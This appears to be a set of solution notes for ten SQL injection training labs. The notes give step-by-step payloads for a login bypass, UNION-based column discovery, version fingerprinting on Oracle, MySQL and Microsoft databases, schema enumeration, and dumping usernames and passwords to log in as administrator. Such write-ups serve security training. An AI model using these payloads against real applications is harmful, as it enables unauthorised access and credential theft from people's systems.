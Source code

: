 # Labs

## SQL injection

1. [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
2. [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
3. [SQL injection UNION attack, determining the number of columns returned by the query](#sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
4. [SQL injection UNION attack, finding a column containing text](#sql-injection-union-attack-finding-a-column-containing-text)
5. [SQL injection UNION attack, retrieving data from other tables](#sql-injection-union-attack-retrieving-data-from-other-tables)
6. [SQL injection UNION attack, retrieving multiple values in a single column](#sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)
7. [SQL injection attack, querying the database type and version on Oracle](#sql-injection-attack-querying-the-database-type-and-version-on-oracle)
8. [SQL injection attack, querying the database type and version on MySQL and Microsoft](#sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
9. [SQL injection attack, listing the database contents on non-Oracle databases](#sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
10. [SQL injection attack, listing the database contents on Oracle](#sql-injection-attack-listing-the-database-contents-on-oracle)

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```text
URL - /filter?category=Gifts

Required - SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Query - Gifts' OR 1=1--
```

### SQL injection vulnerability allowing login bypass

```text
Navigate to my account

In login page,
username - administrator'--

Commenting out the query after username
```

### SQL injection UNION attack, determining the number of columns returned by the query

```text
Select any category filter

Start by query - Pets' UNION SELECT NULL--

Keep appending NULL until no error

Required query - Pets' UNION SELECT NULL,NULL,NULL--
```

### SQL injection UNION attack, finding a column containing text

```text
Under category filter,

first we have to find number of columns

required query - Gifts' UNION SELECT NULL,NULL,NULL--

Now, we need to find which column contains text

Start replacing each NULL by a string

required query - Gifts' UNION SELECT NULL,'a',NULL--

replace 'a' with string to be outputted
```

### SQL injection UNION attack, retrieving data from other tables

```text
Under category filter,

We need to find username, password from users table

Required query - Gifts' UNION SELECT username,password FROM users--

This gives us administrator's password, then we just need to login
```

### SQL injection UNION attack, retrieving multiple values in a single column

```text
Under category filter,

First find number of columns required

Required query - Gifts' ORDER BY 3--

As this query gives us an error, we know only 2 columns are used

Next, we need to find which column supports text

Start with query - Gifts' UNION SELECT NULL,NULL--

Required query - Gifts' UNION SELECT NULL,'a'--

Now, we need to get username and password in single column

Required query - Gifts' UNION SELECT NULL,username||'~'||password FROM users--

This gives us password for logging in.
```

### SQL injection attack, querying the database type and version on Oracle

```text
As we are in a Oracle database, we need to use payloads aptly

We need to use 'FROM' in every Oracle query, so we can use 'dual' table

First, finding number of columns

Required query - Gifts' UNION SELECT NULL,NULL FROM dual--

Now, finding which column is of string type

Required query - Gifts' UNION SELECT 'a','a' FROM dual--

Both columns support text type so we can use any one of them to print version data

Using 'SELECT banner FROM v$version' payload,

Required query - Gifts' UNION SELECT 'a',banner FROM v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

```text
Select the category filter

We can use Burp Suite to capture the request, forward it to Repeater as we will have multiple modifications

Initially, we need to find number of columns

Required query - Pets' UNION SELECT NULL,NULL#

Here, we need to URL-encode the queries otherwise they won't work

Next, we need to find data-type of columns

Required query - Pets' UNION SELECT 'a','a'#

Finally, we need to query version type.

Do URL-encode the queries in Burp Suite.

Required query - ' UNION SELECT @@version,NULL#
```

### SQL injection attack, listing the database contents on non-Oracle databases

```text
First, find number of columns

Payload - Pets' ORDER BY 1--

Starting from 1, we increment it until it gives error (at 3). So we know that there are 2 columns

Confirm this using another payload.

Payload - Pets' UNION SELECT NULL,NULL--

Now, we need to confirm datatypes of columns

Payload - Pets' UNION SELECT 'a','a'--

Now, we need to list contents of database

Payload - Pets' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--

This outputs a lot of tables, but we need to find the one with usernames and passwords

After that, we need to find the required columns

Payload - Pets' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_pegreq'--

This gives the two required column names for table.
Now, we need to output the content of those two columns

Required payload - Pets' UNION SELECT username_njreoo,password_srfoyr FROM users_pegreq--

This gives the password for administrator, which can be used to login
```

### SQL injection attack, listing the database contents on Oracle

```text
Select any category filter; we need to find the number of columns.

We can intercept the request and send it to Repeater in Burp Suite for convenience.

(All payloads have to be sent URL-encoded)
Payload - Pets' ORDER BY 1--

Starting from 1, increment it until it gives error - here we get Internal Server error at 3.

So, there are 2 columns - we need to find the datatypes of these columns.

As it is an Oracle database, we need to use 'FROM' with 'UNION', so we can use a dummy table like 'dual'

Payload - Pets' UNION SELECT 'a','a' FROM dual--

This does not give us an error, so we can attempt to list contents of the database.

Payload - Pets' UNION SELECT TABLE_NAME,NULL FROM all_tables--

Now, we have the table 'USERS_FIORQD', but we do not have column names.
Following the Oracle format, we need to print the column names for this table.

Payload - Pets' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_FIORQD'--

This gives us the two column names we require for users and passwords; we can now print the contents of these two columns.

Payload - Pets' UNION SELECT PASSWORD_CHMJXC,USERNAME_HJDKPR FROM USERS_FIORQD--

This gives the password for 'administrator' - use it to login.
```
